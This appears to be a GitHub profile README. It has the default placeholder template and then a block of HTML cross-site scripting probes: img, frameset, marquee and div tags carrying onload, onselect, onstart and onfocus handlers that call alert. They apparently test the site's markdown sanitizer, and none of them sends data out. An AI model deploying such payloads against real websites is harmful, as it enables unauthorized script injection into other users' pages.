 - 👋 Hi, I’m @falx00h
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

![text](https://avatars.githubusercontent.com/u/92805783?s=40&v=4)
![
<img src="https://avatars.githubusercontent.com/u/92805783?&s=40&v=" alt="!@#$%¨&*()_+=-{}[]?/:;>.<,\|´`^~"/>
<img src="#<frameset onload=alert(123)>" alt="onload!#$%&()*~+-_.,:;?@[/|\]^`=alert(1)"/>

<img src="https://raw.githubusercontent.com/r89shi/r89shi.github.io/master/index.html" onselect="alert(String.fromCharCode(88,83,83))"/>
<marquee onstart='javascript:alert&#x28;1&#x29;'>^__^
<div dir=autofocus/onfocus=alert()>
  <isindex>
</div>

](()

